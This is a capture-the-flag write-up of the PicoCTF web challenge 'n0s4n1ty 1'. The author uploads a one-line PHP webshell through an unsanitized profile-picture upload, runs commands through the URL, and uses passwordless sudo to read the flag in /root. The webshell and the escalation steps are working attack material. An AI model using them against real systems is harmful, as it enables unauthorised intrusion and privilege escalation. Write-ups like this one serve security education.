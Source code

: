 ```yaml
---
title: "n0s4n1ty 1"
description: "A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.\n\nHint: File upload was not sanitized\nHint: Whenever you get a shell on a remote machine, check `sudo -l`"
pubDate: 2025-03-25
category: "web"
author: "sealldev"
section: "PicoCTF"
tags: ["easy"]
---
```


We start with a web instance that has a profile picture upload feature:
![home.png](images/picoctf/n0s4n1ty1/home.png)

I upload a .png I have lying around, `example.png` and we get this in response:
```
The file example.png has been uploaded Path: uploads/example.png 
```

There are two key pieces of information from uploading:
- The `uploads` directory is leaked, so we know where are file is uploaded.
- Looking at the URL after uploading it is on `/upload.php`, so we know its running with PHP!

File Upload + PHP generally means webshell! Let's use this one from [Tiny-PHP-Webshell](https://github.com/bayufedra/Tiny-PHP-Webshell).

I make a `example.php` with this content:
```php
<?=`$_GET[0]`?>
```

After uploading we get:
```
The file example.php has been uploaded Path: uploads/example.php 
```

Let's visit `/uploads/example.php?0=id`:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

Woo RCE! Let's find the flag.

Visiting `/uploads/example.php?0=ls /`:
```
bin boot challenge dev etc home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var 
```

After a lot of poking, we obviously can't get much further and there is a key indication _why_ in the hints:
> Hint: Whenever you get a shell on a remote machine, check `sudo -l`

We need to see what binaries we can run as `sudo`, visiting `/example.php?0=sudo -l` we get:
```
Matching Defaults entries for www-data on challenge: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin 
User www-data may run the following commands on challenge: 
(ALL) NOPASSWD: ALL 
```

`(ALL) NOPASSWD: ALL` means we can run all binaries with sudo without specifying a password, meaning no interactive shell needed!

So we can read inside the `/root` folder! Let's use `/uploads/example.php?0=sudo ls /root`:
```
flag.txt
```

Finally, `/uploads/example.php?0=sudo cat /root/flag.txt`:
```
picoCTF{wh47_c4n_u_d0_wPHP_80eedb7d}
```

Flag: `picoCTF{wh47_c4n_u_d0_wPHP_80eedb7d}`


